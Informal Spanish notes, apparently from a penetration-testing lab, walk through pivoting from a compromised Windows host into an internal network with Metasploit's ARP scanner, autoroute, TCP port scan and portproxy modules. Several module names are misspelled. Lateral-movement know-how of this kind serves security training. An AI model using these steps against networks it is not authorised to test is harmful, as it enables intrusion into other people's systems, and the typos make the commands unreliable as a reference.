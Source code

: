 Kali 192.168.1.20
Windows: 192.168.1.40
			10.10.10.23
Maquina Linux: 10.10.10.30


A traves de metasploit entramos en windows y conseguimos meterpreter
ipconfig

listamos las distintas interfaces de red de la maquina


cuando encontramos la ip de la maquina enotra red, es la maquina es donde se tiene qque hacer pivoting

actualizamos el mapa de red para que sea correcto

despues hacemos lo siguiente
metasploit
use windows/gather/arp_scanner  #scanneador de red en windows con metasploit

swho option
session Id
rhost es rango de la ip de la nueva interfaz de red 
rhost : 10.10.10.4/24

nos muestra un listado de maquinas en este rango de Ips
ahora hay que enrutar el trafico de la maquina windows a la otra maquina que hemos encontrado
metasploit usamos autorute
use multi/manage/autorute

show options
session Id 

run


//en este paso tenemos la IP 


escaneo de puertos de la maquina victima

metasploit use scanner/portsscan/tcp
show options
set rhost ip maquina victima
run
y listado de puertos abiertos

para acceder al puerto 80 por ejemplo
metasploit
use/windows/manage/portproxy
show options
connect addres --> ip maquina victima
connect port ip que queremos acceder
local addres ponemos 0.0.0.0
se local_port 5000 //port forwarding

lo que hay en el puerto 80 va a entrar en el puerto 5000 de la maquina locl

run
entramos en el navegador ponemos la IP de la maquina donde se hace el pivoting (windows): 5000 -->
